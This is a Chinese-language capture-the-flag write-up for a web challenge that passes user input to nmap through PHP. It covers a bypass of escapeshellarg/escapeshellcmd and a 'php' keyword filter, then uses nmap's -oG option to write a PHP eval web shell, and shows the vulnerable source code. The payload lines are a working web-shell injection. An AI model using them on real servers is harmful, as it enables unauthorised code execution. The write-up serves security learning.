


看着像命令注入，在尝试一番后失败了，程序在这里很明显会把所有的特殊字符用 `\` 字符进行转义，所以这里只能回过头来，看一下 nmap 的官方文档

`-iL 从文件中加载IP地址`

我这里的想法是通过这个参数来读取 flag 文件，用于扫描



直接 `-iL` 会报错，但是指定文件呢，又会报错。这里只能得出 nmap 的结果是保存在 XML 中的，也就是 `-oX` 参数，在 fuzz 的过程中也发现 `php` 关键字也不行，有点奇怪不知道为什么会 ban 这个。

其中有一段

```bash
nmap –oG 1.txt –v 192.168.1.1/24			-oG将扫描结果保存为TXT，Ctrl+C中断扫描
```

nmap其他写文件命令：

-oN (标准输出)

-oX (XML输出)

-oS (ScRipT KIdd|3 oUTpuT)

-oG (Grep输出)

-oA (输出至所有格式)

如此一来我们就可以写入 shell 了

```bash
nmap <?php @eval($_POST[1]); ?> -oG a.phtml
```

然而 php 被 ban 了，`<?php ?>` 这里的 php 用短标签代替：`<?= ?>`

所以合理的 payload 应该是

```bash
<?= @eval($_POST[1]); ?> -oG a.phtml
```

但是文件还是没写进去，应为进行了escapeshellarg()与escapeshellcmd()函数处理保护，没法产生文件。可以进行单引号和空格绕过

```php
' <?= @eval($_POST[1]);?> -oG a.phtml '
```



拿到 shell 之后可以康康源码

```php
<?
require('settings.php');


set_time_limit(0);
if (isset($_POST['host'])):
	if (!defined('WEB_SCANS')) {
        	die('Web scans disabled');
	}

	$host = $_POST['host'];
	if(stripos($host,'php')!==false){
		die("Hacker...");
	}
	$host = escapeshellarg($host);
	$host = escapeshellcmd($host);

	$filename = substr(md5(time() . rand(1, 10)), 0, 5);
	$command = "nmap ". NMAP_ARGS . " -oX " . RESULTS_PATH . $filename . " " . $host;
	$result_scan = shell_exec($command);
	if (is_null($result_scan)) {
		die('Something went wrong');
	} else {
		header('Location: result.php?f=' . $filename);
	}
else:
?>
```

确实没办法直接命令注入，所以最后才使用 nmap 内置的写入 shell 功能。


